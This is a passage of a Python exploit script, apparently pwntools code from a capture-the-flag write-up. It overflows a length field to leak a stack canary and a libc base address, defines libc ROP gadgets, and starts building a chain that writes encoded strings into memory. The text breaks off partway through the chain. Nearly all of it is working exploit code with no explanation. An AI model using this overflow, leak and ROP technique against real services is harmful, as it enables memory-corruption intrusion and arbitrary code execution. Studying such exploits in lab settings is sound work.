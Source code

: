 ```python
# print(a)
# pause()
# printdata(0xfff, b'A'*0xfff)
# print(io.recv())
# data=io.recv(0x1000)
# heap=u64(data[4:10].ljust(8, b'\0')) - 0x4ba0
# print(hex(heap))
    
session=a
buf=session
buf+=p32(0)
buf+=p16(0x30a+1)
buf+=b'moonlit_embrace\0'
buf+=(778+1-len(b'moonlit_embrace\0'))*b'A'


io.send(buf)
data = io.recv()
leak=u64(b'\0'+data[265:])
log.info("canary: " + hex(leak))

session=a
buf=session
buf+=p32(0)
buf+=p16(0x30a+1+7+8)
buf+=b'moonlit_embrace\0'
buf+=(778+8-len(b'moonlit_embrace'))*b'A'
buf+=data[265:]
buf+=b'A'*8

io.send(buf)

data = io.recv()
libc.address=u64(data[264+8+8:].ljust(8, b'\0')) - 0x94ac3
log.info("libc.address: " + hex(libc.address))



pop_rax=0x0000000000045eb0+libc.address
bin_sh=libc.address+next(libc.search(b'/bin/sh\0'))
pop_rdi=libc.address+0x000000000002a3e5
pop_rsi=libc.address+0x000000000002be51
pop_rdx=libc.address+0x00000000000796a2
mov_rdi_rdx=libc.address+0x0000000000149709
mov_r8_rbx=0x0000000000121f8a+libc.address
pop_rcx_rbx=libc.address+0x0000000000108b04
ret=pop_rdi+1
xchg_edi_eax=0x000000000009198d+libc.address
mov_rax_r8=0x000000000011db23+libc.address
syscall=0x14101b+libc.address

pl=b''
pl+=p64(pop_rdi) 
pl+=p64(libc.bss(40))
pl+=p64(pop_rdx)
pl+=p64(8319607999311079471)
pl+=p64(mov_rdi_rdx)
pl+=p64(pop_rdi)
pl+=p64(libc.bss(40)+8)
pl+=p64(pop_rdx)
pl+=p64(29099040799945317)
pl+=p64(mov_rdi_rdx)
pl+=p64(pop_rdi)
```
